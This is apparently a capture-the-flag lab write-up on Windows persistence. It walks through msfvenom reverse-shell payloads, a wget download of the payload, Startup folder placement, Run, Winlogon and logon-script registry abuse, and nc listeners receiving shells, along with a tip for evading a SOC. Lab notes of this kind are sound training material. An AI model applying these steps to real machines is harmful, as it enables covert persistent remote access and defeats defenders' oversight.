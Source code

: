 Create Payload
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe -o revshell.exe
```

Next we pull the payload from our box a simple python host works or use *Secure GO app* - TODO
```bash
python3 -m http.server 
```

From the host pull the file
```powershell
wget http://10.11.93.71:8000/revshell.exe -O revshell.exe
```

Now we are going to store it into our Startup
```powershell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now we log out of the Session and Reconnect with RDP. Run the flag exe(10)
```powershell
C:\Windows\system32>C:\flags\flag10.exe
C:\flags\flag10.exe
THM{NO_NO_AFTER_YOU}
```


### Run / Runonce
This is registry modification. I chose `HKLM Run` since I already had an Admin session.
```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

Since we are lazy lets take the same payload from flag 10 and make it work for us in this

```powershell
cp .\revshell.exe C:\Windows\
```
Now that we have our shell in a more sneaky spot. Log out of the RDP(*Note you must logout to make it trigger. Closing alone didn't seem to work*) In an engagement may be worth waiting a few minutes before logging back in to appear benign to SOC

```powershell
*Wait a couple of seconds for the executable to trigger*

C:\Windows\system32>C:\flags\flag11.exe
C:\flags\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}

```

### Winlogon
An alternative to the `Run/Runonce` is to use Winlogon. This loads user profile right after authentication.

Again we will use the same payload that we moved into C:\Windows ***No action necessary for this payload***

Modify the registry keys for Winlogon to use the original and the new payload executable by appending a comma  to the value. If we modify the original executable, we may break the system(logon sequence)
```powershell
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
	shell or Userinit

C:\Windows\system32\userinit.exe,C:\Windows\revshell.exe
```

We get a shell almost immediately following a logoff/logon
```bash
┌──(sstephens㉿kali-ppt)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.11.93.71] from (UNKNOWN) [10.10.182.122] 49886
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\flags\flag12
C:\flags\flag12
THM{I_INSIST_GO_FIRST}
```


### Logon Scripts

> [!User Environment Variable]
> Since userinit.exe also looks for an environment variable called `UserInitMprLogonScript` we are going to abuse it :) 

Modify the following
```powershell
HKCU\Environment 
New > Expandable String > UserInitMprLogonScript

value = C:\Windows\revshell.exe
```

> [!NOTE]
> Use a new revshell & NC listener. Also, if you continue within the same session for this room, be sure to use a new name for your revshell as the flag13.exe will not run with the same name( clobbered by other exercises)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.93.71 LPORT=4453 -f exe -o revshell.exe
```

```powershell

┌──(sstephens㉿kali-ppt)-[~]
└─$ nc -lvnp 4453
listening on [any] 4453 ...
connect to [10.11.93.71] from (UNKNOWN) [10.10.182.122] 49964
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\flags\flag13.exe
C:\flags\flag13.exe
THM{USER_TRIGGERED_PERSISTENCE_FTW}

```